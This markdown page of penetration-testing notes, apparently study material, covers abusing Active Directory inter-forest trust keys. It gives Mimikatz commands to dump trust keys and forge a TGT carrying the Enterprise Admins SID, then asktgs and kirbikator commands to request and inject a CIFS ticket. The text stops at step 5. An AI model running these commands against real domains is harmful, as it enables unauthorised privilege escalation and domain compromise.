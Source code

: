 In the case of the Domain Trusts, parent-child trusts, we could escalate our privileges to the enterprise administrator using the SID history. But since there is SID filtering in forest and external trusts, we can't abuse the SID history part.

# <span style="color:lightblue">Trust Key Abuse by rc4 hash</span>

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Dump the trust keys of the inter-forest trusts
- [x] 2. Note the SID of the current Domain, SID of the target Domain and the rc4_hmac_nt(Trust Key) of the target Domain.
- [x] 3. We can forge a inter-forest TGT with the proper target and `rc4` parameters. Remember to add `-519` after the `sids` parameter to forge privileges as an Enterprise Administrator.
- [x] 4. Now request a TGS using **asktgs.exe**
- [x] 5. Now Inject the TGS in the memory
- [x] 6. Now we can access all the shared files admin DC

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. We require the trust key of inter-forest trust</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

### <span style="color:#F1C232">2. Forge the inter-forest TGT</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current-domain> /sid:<current-domain-SID> /sids:<target-domain-SID>-519 /rc4:<target-domain-rc4-hash> /service:krbtgt /target:<target-domain> /ticket:C:\kekeo_old\trust_tkt.kirbi"'
```

### <span style="color:#F1C232">3. Now create a TGS for a service (CIFS) in the parent domain</span>

```powershell
.\asktgs.exe C:\kekeo_old\trust_tkt.kirbi CIFS/<target-domain-user-dc>
```

### <span style="color:#F1C232">4. Present the TGS to the target service</span>

```powershell
.\kirbikator.exe lsa .\<file.kirbi>
```

### <span style="color:#F1C232">5. Now try to access the target service (CIFS)</span>
